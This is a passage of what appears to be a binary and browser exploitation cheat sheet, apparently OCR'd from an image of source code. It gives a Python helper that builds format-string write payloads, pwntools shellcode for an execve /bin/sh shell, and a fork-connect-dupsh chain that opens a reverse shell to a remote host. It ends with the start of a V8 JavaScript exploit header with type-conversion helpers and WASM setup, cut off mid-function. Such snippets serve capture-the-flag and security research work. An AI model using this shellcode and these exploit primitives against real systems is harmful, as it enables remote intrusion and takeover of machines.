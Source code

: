 ```python
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret
```

## Return to dl-resolve



## Shellcode

```python
asm(pwnlib.shellcraft.amd64.linux.sh())
"push 0x68732f6e69622f\nmov rdi,rsp\nxor rsi,rsi\nxor rdx,rdx\npush SYS_execve\npop rax\nsyscall"
pwnlib.shellcraft.amd64.fork() + "test rax,rax \n jz child \n self: jmp self \n child: \n" + pwnlib.shellcraft.amd64.connect(url, port) + pwnlib.shellcraft.amd64.dupsh()
```

## JavaScript

### Header

```javascript
function dp(x){ %DebugPrint(x);}
const print = console.log;
const assert = function (b, msg)
{
	if (!b)
		throw Error(msg);
};
const __buf8 = new ArrayBuffer(8);
const __dvCvt = new DataView(__buf8);
function d2u(val)
{ //double ==> Uint64
	__dvCvt.setFloat64(0, val, true);
	return __dvCvt.getUint32(0, true) +
		__dvCvt.getUint32(4, true) * 0x100000000;
}
function u2d(val)
{ //Uint64 ==> double
	const tmp0 = val % 0x100000000;
	__dvCvt.setUint32(0, tmp0, true);
	__dvCvt.setUint32(4, (val - tmp0) / 0x100000000, true);
	return __dvCvt.getFloat64(0, true);
}
const hex = (x) => ("0x" + x.toString(16));
function getWMain()
{
	const wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
	const wasmModule = new WebAssembly.Module(wasmCode);
	const wasmInstance = new WebAssembly.Instance(wasmModule, {});
```